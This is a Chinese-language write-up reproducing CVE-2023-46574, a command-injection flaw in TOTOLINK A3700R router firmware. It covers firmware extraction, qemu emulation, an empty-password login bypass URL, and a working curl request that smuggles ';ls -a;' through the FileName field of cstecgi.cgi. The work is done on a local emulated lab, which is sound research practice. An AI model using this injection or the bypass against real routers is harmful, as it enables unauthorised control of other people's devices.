 
TOTOLINK 命令执行 CVE-2023-46574

- - -

# TOTOLINK 命令执行 CVE-2023-46574

## 搭建 qemu mipsel 环境

```bash
sudo apt-get install schroot debootstrap
ubuntu20
debootstrap --arch=mipsel bookworm /iotconfig/debootstrap/mipsel https://mirrors.aliyun.com/debian
```

[![](assets/1708871055-a649f4c54a58e40e31e5da2e7ab5ea80.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220854-ead62014-ccd4-1.png)  
然后配置 schroot

```bash
sudo vim /etc/schroot/chroot.d/mipsel.conf
```

```bash
[mipsel]
type=directory
directory=/iotconfig/debootstrap/mipsel/
users=root
groups=root
root-groups=root
```

然后就可以看到已经配置上了

[![](assets/1708871055-40bfa708d0e0d88add8bff44ce5e17db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220930-00c22a1c-ccd5-1.png)  
之后直接 schroot 进入

```bash
sudo schroot -c chroot:mipsel -u root
```

[![](assets/1708871055-7fc80804bdc97cbbdc5c72628423e932.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220941-073e4cd6-ccd5-1.png)

## 漏洞分析

在 cstecgi.cgi 程序中

[![](assets/1708871055-436d56d3102815927e106271b936cf8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221000-1257c476-ccd5-1.png)  
FileName 没有检查放入 doSystem，所以这里有命令执行漏洞

## 固件模拟

```bash
sudo binwalk --run-as=root -Me TOTOLINK_A3700R_V9.1.2u.6165_20211012.web
```

[![](assets/1708871055-7fc56e0300d1aa2a079ac9cbd5711c42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221019-1d838e70-ccd5-1.png)  
查看目录，里面有个 lighttpd 文件夹，所以这里用的是 lighttpd 服务

[![](assets/1708871055-6d3f1d4a01c43f1aa9e4093c33e7a9f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221149-53403cd4-ccd5-1.png)  
在 lighttpd 目录下找到了配置文件

[![](assets/1708871055-3ab15f4ec88c48743bdf044f0648f3f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221157-584f8586-ccd5-1.png)  
这里 lighttpd 是通过 lighttpd -f \[配置文件\]来启动的

```bash
sudo cp -r squashfs-root /iotconfig/debootstrap/mipsel/root/
```

然后将 squashfs-root 复制到安装的 mipsel 系统上

[![](assets/1708871055-8ec8711ef8acfeffe5d801c150913541.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221216-63a5712a-ccd5-1.png)  
进入 mipsel 系统，然后再 chroot 进入 squashfs-root 目录下

```bash
sudo schroot -c chroot:mipsel -u root
chroot squashfs-root/
```

[![](assets/1708871055-f65352104dc001a36a13f73198c6254a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221231-6c7fda24-ccd5-1.png)  
然后直接启动服务即可

```bash
lighttpd -f lighttp/lighttpd.conf
```

[![](assets/1708871055-51454ead13228ae08e72896aa036682c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221239-71762c72-ccd5-1.png)

```bash
这里如果没启动成功，只需要在/var/run 目录下创建一个 lighttpd.pid 文件即可
mkdir /var/run
touch /var/run/lighttpd.pid
```

然后就能进入路由器登录界面了

[![](assets/1708871055-0fe33dc5ea1d83097c60001c7bc696e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221259-7d5e3160-ccd5-1.png)

## 绕过登录

因为没设置密码，所以直接抓包，空密码登录

[![](assets/1708871055-9278d7cb6d3fecf2b4019e44e044f111.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221311-847b51bc-ccd5-1.png)  
没直接进入，但是可以看到地址  
[http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login](http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login)

[![](assets/1708871055-48b7d02cfb785eac0e5464bdbffe9f8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221320-89925b78-ccd5-1.png)  
直接访问即可

[![](assets/1708871055-d0e64867e06e13d679e7da477d596636.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221327-8e0d3bd2-ccd5-1.png)

## 命令执行

拿到 session id

[![](assets/1708871055-488c8ea0dfc6920b2726d1b4bc48805b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221342-97089114-ccd5-1.png)

```bash
curl http://127.0.0.1/cgi-bin/cstecgi.cgi -b "SESSION_ID=2:1708017806:2" -X POST -d '{"topicurl":"UploadFirmwareFile","FileName":";ls -a;"}'
```

[![](assets/1708871055-6e417d9aef16cffaecf1fdfd7863e275.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221402-a2eee3ca-ccd5-1.png)

![](assets/1708871055-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)TOTOLINK\_A3700R\_V9.1.2u.6165\_20211012.zip (8.658 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240216221624-f78081d2-ccd5-1.zip)
